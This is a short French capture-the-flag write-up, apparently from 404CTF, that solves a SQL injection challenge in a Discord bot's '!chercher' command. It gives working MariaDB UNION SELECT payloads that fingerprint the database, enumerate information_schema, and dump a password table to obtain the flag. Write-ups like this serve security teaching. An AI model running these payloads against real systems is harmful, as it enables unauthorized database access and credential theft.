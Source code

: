 On teste un peu tous les caractères qui peuvent mener à une injection
Au bout de quelques tests, on remarque que la commande
`!chercher "#`
affiche une liste de tous les résultats possibles

```
Results:
Result #1:
>404CTF{Tu croyais que c'était le flag?}
Result #2:
>never gonna give you up
Result #3:
>top secret
Result #4:
>mot de passe
Result #5:
>password
Result #6:
>flag
Result #7:
>drapeau
Result #8:
>hallebarde
Result #9:
>404CTF
Result #10:
>ennemi
Result #11:
>allié
Result #12:
>attaque
Result #13:
>défense
Result #14:
>espionnage
Result #15:
>dgse
Result #16:
>bcra
Result #17:
>france
Result #18:
>ministère des armées
Result #19:
>telecom sudparis
Result #20:
>hackademint
Result #21:
>minet
```

Le script est commenté par # et s'arrête aux " : c'est du bash, du SQL ou du python
Il accepte true, or, True et ||
Probablement du SQL du coup

`!chercher " UNION SELECT version() #`

Ça rend

`10.6.7-MariaDB`

Cool ! On check la syntaxe de mariadb pour les sqli
On se rend compte qu'on est limités à une seule colonne (forcément, c'est ce que renvoie le bot)
On concatène donc les infos habituelles

`!chercher  aaaa" UNION SELECT CONCAT_WS(" : ", table_schema, table_name, column_name) FROM information_schema.columns WHERE table_schema != "information_schema" #`

```
Result #1:
>data : Privileged_users : user
Result #2:
>data : data : message
Result #3:
>data : password : password

```

Parfait

Dans `data.message`, on a les résultats habituels de la requête au bot
Dans `Privileged_users.user`, on a des uuid

On se doute qu'on a des trucs cools dans password.password

`!chercher ." UNION SELECT password FROM password  #`

```
Result #1:
>404CTF{D1sc0rd_&_injection_SQL}
```

On a notre flag
